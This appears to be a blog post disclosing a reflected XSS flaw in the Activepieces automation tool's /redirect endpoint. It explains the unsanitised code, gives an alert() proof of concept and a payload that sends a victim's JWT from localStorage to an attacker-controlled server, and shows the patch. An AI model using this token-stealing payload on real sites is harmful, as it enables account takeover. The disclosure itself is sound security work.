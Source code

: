 ```yaml
---
layout: default
title:  "XSS on Steroids | Gaining Unauthenticated Access"
date:   2023-04-10 11:12:00 -0500
categories: jekyll update
templateEngineOverride: md
permalink: /bloghub/xss-on-steroids/
---
```


{% raw %} 

# XSS on Steroids | Gaining Unauthenticated Access

[Activepieces](https://www.activepieces.com/) is an open-source business automation tool, aka the open-source alternative for *Zapier,* which helps individuals automate flows and their work in a flexible UI environment without the need to write code, for example, you can build automation with *Activepieces* to send a Slack notification for each new Trello card.  

In my effort to help the open-source world enhance its security posture, I decided to do vulnerability research, meanwhile testing, I identified a reflected XSS that helps unauthenticated attackers gain access by inducing victims to click on the specially crafted link. 

Following this article, we are going to explore the technical details of the vulnerability, exploit it, and showcase how it was mitigated. 

## Impact

Versions prior to `0.3.7` are vulnerable to **Reflected XSS,** which leverages unauthenticated attackers to gain access and possibly steal credentials for added pieces and flows.

## Deep Dive

The application is written with TypeScript which is a Typed JavaScript framework. The [application](https://github.com/activepieces/activepieces) separates frontend and backend code in separate folders inside the **packages** directory.

```html
$> tree packages -L 1
packages
├── backend
├── ee
├── engine
├── frontend
├── pieces
└── shared
```

Moreover, the backend structure looks as follows, where it’s pretty obvious where the backend code and unit tests are reside.

```html
$> tree packages/backend -L 2 
├── jest.config.ts
├── project.json
├── src
│   ├── app
│   ├── assets
│   └── main.ts
├── test
│   ├── resources
│   └── workers
├── tsconfig.app.json
├── tsconfig.json
├── tsconfig.spec.json
├── types
│   ├── fastify.d.ts
│   └── redis-lock.d.ts
└── webpack.config.js
```

Reviewing `main.ts` which from its name indicates the main function and application starter, indeed, we can see the starter function at the end of the file.

**activepieces/packages/backend/src/main.ts**

```jsx
const start = async () => {
try {
	.... 
	await app.listen({
            host: "0.0.0.0",
            port: 3000, 
				}); 
	}
}
```

the app object defines an interesting route `/redirect` that accepts user input from the *code* parameter. 

**activepieces/packages/backend/src/main.ts**

```jsx
app.get(
    "/redirect",
    async (
        request: FastifyRequest<{ Querystring: { code: string; } }>, reply
    ) => {
        const params = {
            "code": request.query.code
        };
        if (params.code === undefined) {
            reply.send("The code is missing in url");
        }
        else {
            reply.type('text/html').send(`<script>if(window.opener){window.opener.postMessage({ 'code': '${params['code']}' },'*')}</script> <html>Redirect succuesfully, this window should close now</html>`)
        }
    }
);
```

As we can see, when the *code* parameter is set, the code flows to the *else* branch and returns an HTML containing the user input passed as a parameter to the *window.opener.postMessage(),* the parameter misses sanitization such as HTML encoding or URL encoding before it's reflected in the browser. 

Crafting a payload that closes the called function following it with our payload will eventually look as follows:

```
test' },'*')} else alert('poc');//
```

 This can be also leveraged to steal the JWT token of the authenticated token:

```
test' },'*')} else { const xhr = new XMLHttpRequest();xhr.open('GET', '[https://](https://enxwjqx3bxw4.x.pipedream.net/)<your server>' + localStorage.getItem('token'));xhr.send(); }//
```

### Patch

The vulnerability was mitigated by passing the *params[’code’]* to `encodeURIComponent()` 

```jsx
else {
 reply.type('text/html').send(`<script>if(window.opener){window.opener.postMessage({ 'code': '${encodeURIComponent(params['code'])}' },'*')}</script> <html>Redirect succuesfully, this window should close now</html>`)
      }
```


{% endraw %}